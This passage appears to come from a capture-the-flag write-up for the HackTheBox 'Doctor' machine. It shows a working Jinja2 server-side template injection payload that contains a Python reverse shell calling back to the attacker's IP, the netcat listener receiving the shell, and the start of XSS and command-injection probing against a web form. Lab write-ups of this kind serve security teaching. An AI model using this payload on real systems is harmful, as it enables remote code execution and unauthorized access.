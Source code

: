     			</channel>
    

#### Shell

I’ll grab the [RCE
payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-
the-ssti-by-calling-popen-without-guessing-the-offset) from
PayloadsAllTheThings and modify it by putting in my IP / port, and changing
the process to `bash -i` to get a shell:

    
    
    {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.14.6\",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
    

When I put this in as the title and then refresh `/archive`, I get a shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.209.
    Ncat: Connection from 10.10.10.209:40136.
    bash: cannot set terminal process group (912): Inappropriate ioctl for device
    bash: no job control in this shell
    web@doctor:~$ id
    uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
    

### Via Command Injection

#### Enumeration

Whenever I have a form that displays back to my on the page, it’s good to
check for user interaction (like in [SecNotes](/2019/01/19/htb-
secnotes.html#get-tylers-credentials)) and/or cross site scripting (XSS). I
created two links, and put a script box in the body:

![image-20201101100239532](https://0xdfimages.gitlab.io/img/image-20201101100239532.png)

I started a Python webserver, and on hitting submit, the post was created:

![image-20201101100337162](https://0xdfimages.gitlab.io/img/image-20201101100337162.png)

The input is handled as text and not as HTML. What’s weird is that I still got
one hit on my webserver:

    
    
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.209 - - [01/Nov/2020 10:02:59] code 404, message File not found
    10.10.10.209 - - [01/Nov/2020 10:02:59] "GET /content HTTP/1.1" 404 -
    